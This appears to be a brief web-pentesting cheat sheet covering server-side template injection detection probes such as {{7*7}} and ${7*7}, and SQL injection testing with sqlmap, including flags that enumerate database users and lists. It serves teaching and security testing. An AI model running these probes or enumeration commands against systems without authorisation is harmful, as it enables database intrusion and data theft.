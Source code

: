 

## SSTI (Server Side Template Injection)

A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.

> Example:

```
http://vulnerable-website.com/?name={{bad-stuff-here}}
```

> Detect - Plaintext context:

```
 {{7*7}}

${7*7}

<%= 7*7 %>

${{7*7}}

#{7*7}

*{7*7}
```



## SQLi (SQL injection)

> Automatic tool for SQLi - SQLmap

https://github.com/sqlmapproject/sqlmap

It can proof if the parameter is vulnerable to SQL injection.

Example:

```
python sqlmap.py -u "http://<IP>/section.php?id=51" --batch
```

The option '-u' is used to provide the target URL, while the switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option.

There are some interesting flags that can be useful.

Basic DB Data Enumeration:

```
--banner --current-user --current-db --is-dba
```

To get the database list:

```
--dbs
```
